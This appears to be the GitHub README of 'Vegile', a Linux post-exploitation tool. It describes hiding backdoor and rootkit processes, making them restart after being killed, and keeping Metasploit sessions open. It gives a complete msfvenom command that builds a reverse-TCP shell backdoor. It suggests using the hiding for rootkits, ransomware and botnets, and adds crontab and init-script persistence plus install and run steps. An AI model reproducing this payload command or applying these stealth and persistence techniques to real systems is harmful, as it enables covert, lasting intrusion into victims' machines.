 # Vegile - Ghost In The Shell

[![Version](https://img.shields.io/badge/Vegile-Beta-brightgreen.svg?maxAge=259200)]()
[![Stage](https://img.shields.io/badge/Release-Stable-brightgreen.svg)]()
[![Build](https://img.shields.io/badge/Supported_OS-Linux-orange.svg)]()

**Vegile** is a tool for **Post exploitation** Techniquesin linux. Post Exploitation techniques will ensure that we maintain some level of **access and can potentially** lead to **deeper** footholds into our targets **trusted network**.


<img src="https://user-images.githubusercontent.com/17976841/34869598-fd7cf00e-f7b9-11e7-950e-a4cb61364c03.png" ></img>

### Donate
- If this project very help you to penetration testing  and u want support me , you can give me a cup of coffee :)
- [![Donation](https://img.shields.io/badge/bitcoin-donate-yellow.svg)](https://blockchain.info/id/address/1NuNTXo7Aato7XguFkvwYnTAFV2immXmjS)



## :book: How it works

This tool will setting up your ***backdoor/rootkits***
when backdoor already setup it will be ***hidden*** your spesisifc process,***unlimited*** your ***session*** in metasploit and ***transparent***. Even when it **killed**, it will **re-run again**. There always be a procces which while **run** another process,So we can assume that this procces is **unstopable** like a **Ghost in The Shell**

#### READ THIS

- right now i just tested backdoor with msfvenom command using reverse_shell and my manual backdoor for linux [ **its work** ] or you can use thefatrat for help you creating a simple backdoor
- **msfvenom -a x86 --platform linux -p linux/x86/shell/reverse_tcp LHOST=IP LPORT=PORT -b "\x00" -f elf -o NAME_BACKDOOR**
- for hidden process you can use for **rootkits,backdoor,ransom and botnet** { sh,python,perl,exe and binary }.
- Victim  target all linux distribution include ( **base32** and **base64** in their system ) 
- For get persistence you can use **crontab and xinit.d** into your backdoor  
- this just simple algorithma how we can maintain our sessions and backdoor/rootkits , **you can explore this**



## Getting Started
1. ```git clone https://github.com/Screetsec/Vegile.git```
2. ```cd Vegile```
3. ```chmod +x Vegile```

## Using Vegile
Running Vegile without any parameters will give a helpful list of the most common options. you can use command : 

- Vegile -i / --inject  **[backdoor/rootkit]**
- Vegile -u / --unlimited **[backdoor/rootkit]**
- Vegile -h / --help 

## Demo Video

- [![Vegile demo](https://user-images.githubusercontent.com/17976841/34897525-f91afc1a-f820-11e7-9f85-bb0a5f00b4e3.JPG)](https://www.youtube.com/watch?v=oYyH1G3Lsvo "Vegile Demo ")

- [![Vegile demo](https://user-images.githubusercontent.com/17976841/34897524-f887a258-f820-11e7-9ceb-a39da5be6fdf.JPG)](https://www.youtube.com/watch?v=imlh8l5w56k "Vegile Demo ")

## :octocat: Credits

- Thanks to allah 
- Dracos Linux from Scratch Indonesia ( Awesome Penetration os ), you can see in http://dracos-linux.org/ 
- Bash.ID , WingkoColi , Reversing ID , IndoXploit , Backbox Indonesia , Depok Cyber Security and Indonesia Backtrack Team .
- Offensive Security for the awesome OS ( http://www.offensive-security.com/ )
- http://www.kali.org/ Kali Linux
- gianlucaborello to give a reference and some idea [ https://sysdig.com/blog/hiding-linux-processes-for-fun-and-profit/ ] 
- And another open sources tool in github



## Disclaimer

***Note: modifications, changes, or alterations to this sourcecode is acceptable, however,any public releases utilizing this code must be approved by writen this tool ( Edo -m- ).***
